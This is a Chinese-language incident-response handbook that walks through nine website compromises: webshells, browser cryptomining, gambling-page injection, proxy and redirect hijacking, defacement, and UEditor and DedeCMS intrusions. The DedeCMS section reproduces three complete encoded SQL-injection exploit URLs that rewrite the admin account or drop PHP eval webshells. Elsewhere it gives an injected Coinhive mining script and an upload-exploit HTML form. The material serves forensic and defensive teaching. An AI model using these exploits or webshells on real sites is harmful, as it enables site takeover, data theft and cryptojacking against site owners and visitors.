








第1篇：网站被植入Webshell

网站被植入webshell，意味着网站存在可利用的高危漏洞，攻击者通过利用漏洞入侵网站，写入webshell接管网站的控制权。为了得到权限 ，常规的手段如：前后台任意文件上传，远程命令执行，Sql注入写入文件等。

### 现象描述

网站管理员在站点目录下发现存在webshell，于是开始了对入侵过程展开了分析。



Webshell查杀工具：

D盾_Web查杀 Window下webshell查杀：http://www.d99net.net/index.asp

河马：支持多平台，但是需要联网环境。

使用方法: wget http://down.shellpub.com/hm/latest/hm-linux-amd64.tgz tar xvf hm-linux-amd64.tgz hm scan /www

### 事件分析

#### 1、 **定位时间范围**

通过发现的webshell文件创建时间点，去翻看相关日期的访问日志。


#### 2、Web 日志分析

经过日志分析，在文件创建的时间节点并未发现可疑的上传，但发现存在可疑的webservice接口


#### 3、漏洞分析

访问webservice接口，发现变量：buffer、distinctpach、newfilename可以在客户端自定义


#### 4、漏洞复现

尝试对漏洞进行复现，可成功上传webshell，控制网站服务器


#### 5、漏洞修复

清除webshell并对webservice接口进行代码修复。

从发现webshell到日志分析，再到漏洞复现和修复，本文暂不涉及溯源取证方面。

## 第2篇：门罗币恶意挖矿

门罗币(Monero 或 XMR)，它是一个非常注重于隐私、匿名性和不可跟踪的加密数字货币。只需在网页中配置好js脚本，打开网页就可以挖矿，是一种非常简单的挖矿方式，而通过这种恶意挖矿获取数字货币是黑灰色产业获取收益的重要途径。

### 现象描述

利用XMR恶意挖矿，会大量占用用户的CPU资源，严重影响了网站的用户体验。

从08/09日0点开始，局域网内某IP访问网站页面会触发安全预警，只要访问此服务器上的网页，CPU直线上升100%


### 问题解析

通过获取恶意网页url，对网页页面进行分析，发现网站页面被植入在线门罗币挖矿代码：

<script> var script = document.createElement('script'); script.onload = function () { // XMR Pool hash var m = new CoinHive.Anonymous('BUSbODwUSryGnrIwy3o6Fhz1wsdz3ZNu'); // TODO: Replace the below string with wallet string m.start('47DuVLx9UuD1gEk3M4Wge1BwQyadQs5fTew8Q3Cxi95c8W7tKTXykgDfj7HVr9aCzzUNb9vA6eZ3eJCXE9yzhmTn1bjACGK'); }; script.src = 'https://coinhive.com/lib/coinhive.min.js'; document.head.appendChild(script); </script>

删除js里面的恶意代码，网站被XMR 恶意挖矿，服务器已经被攻击，进一步做服务器入侵排查。


## 第3篇：批量挂黑页

作为一个网站管理员，你采用开源CMS做网站，比如dedecms，但是有一天，你忽然发现不知何时，网站的友情链接模块被挂大量垃圾链接，网站出现了很多不该有的目录，里面全是博彩相关的网页。而且，攻击者在挂黑页以后，会在一些小论坛注册马甲将你的网站黑页链接发到论坛，引爬虫收录。在搜索引擎搜索网站地址时，收录了一些会出现一些博彩页面，严重影响了网站形象。

### 原因分析

网站存在高危漏洞，常见于一些存在安全漏洞的开源CMS，利用0day批量拿站上传黑页。

### 现象描述：

某网站被挂了非常多博彩链接，链接形式如下：

 http://www.xxx.com/upload/aomendduchangzaixiandobo/index.html

 http://www.xxx.com/upload/aomendduchangzaixian/index.html

 http://www.xxx.com/upload/aomenzhengguidubowangzhan/index.html

链接可以访问，直接访问物理路径也可以看到文件，但是打开网站目录并没有发现这些文件，这些文件到底藏在了哪？

访问这些链接，跳转到如图页面：



### 问题处理：

1、打开电脑文件夹选项卡，取消”隐藏受保护的操作系统文件“勾选，把”隐藏文件和文件夹“下面的单选选择“显示隐藏的文件、文件夹和驱动器”。


2、再次查看，可以看到半透明的文件夹，清楚隐藏文件夹及所有页面


3、然后清除IIS临时压缩文件

C:\inetpub\temp\IIS Temporary Compressed Files\WEBUI$^_gzip_D^\WEB\WEBUI\UPLOAD


4、投诉快照，申请删除相关的网页收录，减少对网站的影响。

## 第4篇：新闻源网站劫持

新闻源网站一般权重较高，收录快，能够被搜索引擎优先收录，是黑灰产推广引流的必争之地，很容易成为被攻击的对象。被黑以后主要挂的不良信息内容主要是博彩六合彩等赌博类内容，新闻源网站程序无论是自主开发的还是开源程序，都有被黑的可能，开源程序更容易被黑。

### 现象描述：

某新闻源网站首页广告链接被劫持到菠菜网站


有三个广告专题，链接形式如下：

 http://www.xxx.cn/zhuanti/yyysc/index.shtml

 http://www.xxx.cn/zhuanti/wwwsc/index.shtml

 http://www.xxx.cn/zhuanti/zzzsc/index.shtml

点击这三条链接会跳转到博彩网站。简单抓包分析一下过程：


可以发现此时这个返回页面已被劫持，并且加载了第三方js文件，http://xn--dpqw2zokj.com/N/js/dt.js，进一步访问该文件：



dt.js进一步加载了另一条js，访问http://xn--dpqw2zokj.com/N/js/yz.js


我们发现链接跳转到https://lemcoo.com/?dt，进一步访问这个链接，网站为博彩链接导航网站，访问后会随机跳转到第三方赌博网站。


### 问题处理：

找到url对应的文件位置，即使文件被删除，链接依然可以访问，可以发现三条链接都是以“sc”后缀。

对Nginx配置文件进行排查，发现Nginx配置文件VirtualHost.conf被篡改，通过反向代理匹配以“sc”后缀的专题链接，劫持到[http://103.233.248.163](http://103.233.248.163/)，该网站为博彩链接导航网站。



删除恶意代理后，专题链接访问恢复。

## 第5篇：移动端劫持

PC端访问正常，移动端访问出现异常，比如插入弹窗、嵌入式广告和跳转到第三方网站，将干扰用户的正常使用，对用户体验造成极大伤害。

### 现象描述

部分网站用户反馈，手机打开网站就会跳转到赌博网站。

### 问题处理

访问网站首页，抓取到了一条恶意js： http://js.zadovosnjppnywuz.com/caonima.js


我们可以发现，攻击者通过这段js代码判断手机访问来源，劫持移动端（如手机、ipad、Android等）流量，跳转到[https://262706.com。](https://262706.com./)

进一步访问[https://262706.com，跳转到赌博网站：](https://262706.xn--com%2C:-bp6hq3ed78kfoish9aprbjyh/)


## 第6篇：搜索引擎劫持

 当你直接打开网址访问网站，是正常的，可是当你在搜索引擎结果页中打开网站时，会跳转到一些其他网站，比如博彩，虚假广告，淘宝搜索页面等。是的，你可能了遇到搜索引擎劫持。

### 现象描述

从搜索引擎来的流量自动跳转到指定的网页

### 问题处理

通过对index.php文件进行代码分析，发现该文件代码 对来自搜狗和好搜的访问进行流量劫持。


进一步跟着include函数包含的文件，index,php包含/tmp/.ICE-unix/.. /c.jpg。


进入/tmp目录进行查看，发现该目录下，如c.jpg等文件，包含着一套博彩劫持的程序。


## 第7篇：网站首页被篡改

 网站首页被非法篡改，是的，就是你一打开网站就知道自己的网站出现了安全问题，网站程序存在严重的安全漏洞，攻击者通过上传脚本木马，从而对网站内容进行篡改。而这种篡改事件在某些场景下，会被无限放大。

### 现象描述

网站首页被恶意篡改，比如复制原来的图片，PS一下，然后替换上去。

### 问题处理

1、**确认篡改时间**

通过对被篡改的图片进行查看，确认图片篡改时间为2018年04月18日 19:24:07 。



**2、访问日志溯源**

通过图片修改的时间节点，发现可疑IP：113.xx.xx.24 （代理IP，无法追溯真实来源），访问image.jsp（脚本木马），并随后访问了被篡改的图片地址。


进一步审查所有的日志文件(日志保存时间从2017-04-20至2018-04-19)，发现一共只有两次访问image.jsp文件的记录，分别是2018-04-18和2017-09-21。


image.jsp在2017-09-21之前就已经上传到网站服务器，已经潜藏长达半年多甚至更久的时间。

**3、寻找真相**

我们在网站根目录找到了答案，发现站点目录下存在ROOT.rar全站源码备份文件，备份时间为2017-02-28 10:35。


通过对ROOT.rar解压缩，发现源码中存在的脚本木马与网站访问日志的可疑文件名一致（image.jsp）。



根据这几个时间节点，我们尝试去还原攻击者的攻击路径。

但是我们在访问日志并未找到ROOT.rar的访问下载记录，访问日志只保留了近一年的记录，而这个webshell可能已经存在了多年。

黑客是如何获取webshell的呢？

可能是通过下载ROOT.rar全站源码备份文件获取到其中存在的木马信息，或者几年前入侵并潜藏了多年，又或者是从地下黑产购买了shell，我们不得而知。

本文的示例中攻击者为我们留下了大量的证据和记录，而更多时候，攻击者可能会清除所有的关键信息，这势必会加大调查人员的取证难度。

## 第8篇：管理员账号被篡改

 你是某一个网站的管理员，有一天，你的管理员账号admin却登录不了，进入数据库查看，原来管理员账号用户名不存在了，却多了另外一个管理员用户名。不对，不是新增了管理员，而是你的管理员用户名被篡改了。

### 现象描述

前后端分离，后台只允许内网访问，管理员账号admin却依然被多次被篡改

### 问题处理

**1、网站webshell**

在针对网站根目录进行webshell扫描，发现存在脚本木马，创建时间为2018-06-13 04:30:30


**2、 定位IP**

通过木马创建时间， 查看网站访问日志，定位到IP为：180.xx.xx.3


**3、关联分析**

全局搜索与该IP有关的操作日志：


在脚本木马生成前，有两条比较可疑的访问日志吸引了我们的注意：

```
172.16.1.12 180.xx.xxx.3 - - [10/Jun/2018:08:41:43 +0800] "GET /plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=114&arrs2[]=101&arrs2[]=97&arrs2[]=100&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=120&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=109&arrs2[]=79&arrs2[]=111&arrs2[]=110&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=87&arrs2[]=72&arrs2[]=69&arrs2[]=82&arrs2[]=69&arrs2[]=32&arrs2[]=96&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35 HTTP/1.1" 200 67
172.16.1.12 180.xx.xxx.3 - - [10/Jun/2018:08:41:43 +0800] "GET /plus/ad_js.php?aid=19 HTTP/1.1" 200 32
```

对这段POC进行解码，我们发现通过这个poc可以往数据库中插入数据，进一步访问/plus/ad_js.php?aid=19 即可在plus目录生成read.php脚本文件。


解码后：

cfg_dbprefixmyad`SET`normbody`= '<?php file_put_contents(''read.php'',''<?php eval($_POST[x]);echo mOon;?>'');?>' WHERE`aid` =19 #

综上，可以推测/plus/download.php中可能存在SQL注入漏洞，接下来，收集网上已公开的有以下3种EXP进行漏洞复现。

#### 漏洞复现

**利用方式一：修改后台管理员**

1、新建管理员账号test/test123789，可以成功登录网站后台

2、构造如下注入SQL语句：

```
cfg_dbprefixadmin SETuserid='spider',pwd`='f297a57a5a743894a0e4' where id=19 #
```

修改后台管理员为：用户名spider，密码admin。

（3）对应的EXP:

```
？open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=97&arrs2[]=100&arrs2[]=109&arrs2[]=105&arrs2[]=110&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=117&arrs2[]=115&arrs2[]=101&arrs2[]=114&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=61&arrs2[]=39&arrs2[]=115&arrs2[]=112&arrs2[]=105&arrs2[]=100&arrs2[]=101&arrs2[]=114&arrs2[]=39&arrs2[]=44&arrs2[]=32&arrs2[]=96&arrs2[]=112&arrs2[]=119&arrs2[]=100&arrs2[]=96&arrs2[]=61&arrs2[]=39&arrs2[]=102&arrs2[]=50&arrs2[]=57&arrs2[]=55&arrs2[]=97&arrs2[]=53&arrs2[]=55&arrs2[]=97&arrs2[]=53&arrs2[]=97&arrs2[]=55&arrs2[]=52&arrs2[]=51&arrs2[]=56&arrs2[]=57&arrs2[]=52&arrs2[]=97&arrs2[]=48&arrs2[]=101&arrs2[]=52&arrs2[]=39&arrs2[]=32&arrs2[]=119&arrs2[]=104&arrs2[]=101&arrs2[]=114&arrs2[]=101&arrs2[]=32&arrs2[]=105&arrs2[]=100&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35
```

执行EXP后，相应后台数据库表变为如下：



（4）因此相应后台登录用户变为spider密码admin

**利用方式二：通过/plus/mytag_js.php文件生成一句话木马php**

（1）如：构造如下注入SQL语句：

`cfg_dbprefixmytag(aid,expbody,normbody) VALUES(9013,@\','{dede:php}file_put_contents(''90sec.php'',''<?php eval($_POST[guige]);?>'');{/dede:php}') # @\'``

（2）对应的EXP:

```
?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=116&arrs2[]=97&arrs2[]=103&arrs2[]=96&arrs2[]=32&arrs2[]=40&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=44&arrs2[]=101&arrs2[]=120&arrs2[]=112&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=44&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=41&arrs2[]=32&arrs2[]=86&arrs2[]=65&arrs2[]=76&arrs2[]=85&arrs2[]=69&arrs2[]=83&arrs2[]=40&arrs2[]=57&arrs2[]=48&arrs2[]=49&arrs2[]=51&arrs2[]=44&arrs2[]=64&arrs2[]=96&arrs2[]=92&arrs2[]=39&arrs2[]=96&arrs2[]=44&arrs2[]=39&arrs2[]=123&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=58&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=125&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=57&arrs2[]=48&arrs2[]=115&arrs2[]=101&arrs2[]=99&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=103&arrs2[]=117&arrs2[]=105&arrs2[]=103&arrs2[]=101&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=123&arrs2[]=47&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=58&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=125&arrs2[]=39&arrs2[]=41&arrs2[]=32&arrs2[]=35&arrs2[]=32&arrs2[]=64&arrs2[]=96&arrs2[]=92&arrs2[]=39&arrs2[]=96
```

（3）执行EXP后，将向数据库表dede_mytag中插入一条记录，


（4）执行如下语句，在/plus目录下生成90sec.php一句话木马 http://www.xxxx.com/plus/mytag_js.php?aid=9013

**利用方式三：使/plus/ad_js.php文件变为一句话木马php**

（1）如：构造如下注入SQL语句：

```
cfg_dbprefixmyadSETnormbody= '<?php file_put_contents(''read.php'',''<?php eval($_POST[x]);echo mOon;?>'');?>' WHEREaid` =19 #
```

（2）对应的EXP:

```
/plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=114&arrs2[]=101&arrs2[]=97&arrs2[]=100&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=120&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=109&arrs2[]=79&arrs2[]=111&arrs2[]=110&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=87&arrs2[]=72&arrs2[]=69&arrs2[]=82&arrs2[]=69&arrs2[]=32&arrs2[]=96&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35
```

（3）执行EXP后，将向数据库表dede_myad中插入一条记录。

（4）进一步访问/plus/ad_js.php?aid=19 即可在plus目录生成read.php脚本文件。

------

如何清除？

1、删除网站目录中的webshell

2、清除dede_myad、dede_mytag数据库表中插入的SQL语句，防止再次被调用生成webshell。

如何防御？

网站采用开源CMS搭建，建议及时对官方发布的系统补丁以及内核版本进行升级。

## 第9篇：编辑器入侵事件

UEditor是百度的一个javascript编辑器的开源项目，很多开发人员都喜欢引用这个编辑器，但这个编辑器官网版本一直停留在2016-05-26，已经很久没有更新了。

### 0x01 现象描述

HIDS预警：发现后门(Webshell)文件，建议您立即进行处理。

### 0x02 事件分析

**1、发现Webshell**

通过预警信息，找到木马文件路径：


备注：紧急处理，通过禁止动态脚本在上传目录的运行权限，使webshell无法成功执行。

**2、定位文件上传时间**

根据Webshell文件创建时间，2020年3月9日 15:08:34 



3、**Web访问日志关联分析**

由于，IIS日志时间与系统时间相差8小时，系统时间是15:08，我们这里查看的是 7:08的日志时间。  

~~~
2020-03-09 07:08:34 10.215.2.128 POST /ueditor/net/controller.ashx action=catchimage
...................
...................
2020-03-09 07:08:35 10.215.2.128 POST /ueditor/net/controller.ashx action=catchimage
~~~

找到对应的网站访问日志，在文件创建时间隔间里，我们会注意到这样两个ueditor的访问请求，初步怀疑是UEditor编辑器任意文件上传漏洞。

**4、本地漏洞复现**

A、本地构建一个html

~~~
<form action="http://xxxxxxxxx/ueditor/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
  <p>shell addr:<input type="text" name="source[]" /></p >
  <inputtype="submit" value="Submit" />
</form>
~~~

B、上传webshell，上传成功


经漏洞复现，确认UEditor编辑器任意文件上传漏洞。

**5、还原攻击者行为**


通过相关文件的访问记录进行关联分析，攻击者通过 ueditor编辑器成功上传webshell。

### 0x03 事件处理

1、**删除Webshell**

清楚已发现的webshell，并尝试查找可能隐藏的webshell。

**2、代码完整性验证**

我们来思考一个问题，如果有一个免杀的Webshell隐藏在数以万行的代码中，怎么搞？

文件完整性校验，检查网站的源码是否被篡改过。

操作过程：

通过查看服务器上已部署的源代码版本，找研发同事要同样版本的代码。把纯净源码的所有文件计算一次hash值保存，再到服务器上执行一次hash值，通过比对hash值，输出新创建的/被修改过的/删除的文件列表。

**3、系统入侵排查**

对系统做一个整体排查，确认是否存在后门

**4、代码修复**

反馈给相关开发人员进行代码修复。